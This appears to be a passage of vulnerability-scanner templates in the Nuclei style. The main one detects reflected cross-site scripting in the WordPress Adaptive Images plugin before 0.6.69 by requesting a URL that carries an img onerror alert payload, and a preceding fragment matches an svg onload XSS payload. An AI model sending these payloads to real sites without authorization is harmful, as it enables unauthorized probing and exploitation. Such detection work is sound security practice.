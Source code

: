 ### Matchers

**Type - word**

- part - body
- words
  1. \</script>\<svg/onload=alert(/XSS/)>
  2. settings_page_seo-redirection
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Adaptive Images \< 0.6.69 - Cross-Site Scripting

## Description

- WordPress Adaptive Images \< 0.6.69 is susceptible to cross-site scripting because the plugin does not sanitize and escape the REQUEST_URI before outputting it back in a page.
- severity - high
- tags - wpscan,wordpress,xss,wp-plugin,wp

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/adaptive-images/adaptive-images-script.php/%3Cimg/src/onerror=alert(document.domain)%3E/?debug=true

### Matchers

**Type - word**

- words
  1. \<img/src/onerror=alert(document.domain)>
  2. \<td>Image\</td>
- condition - and

**Type - word**
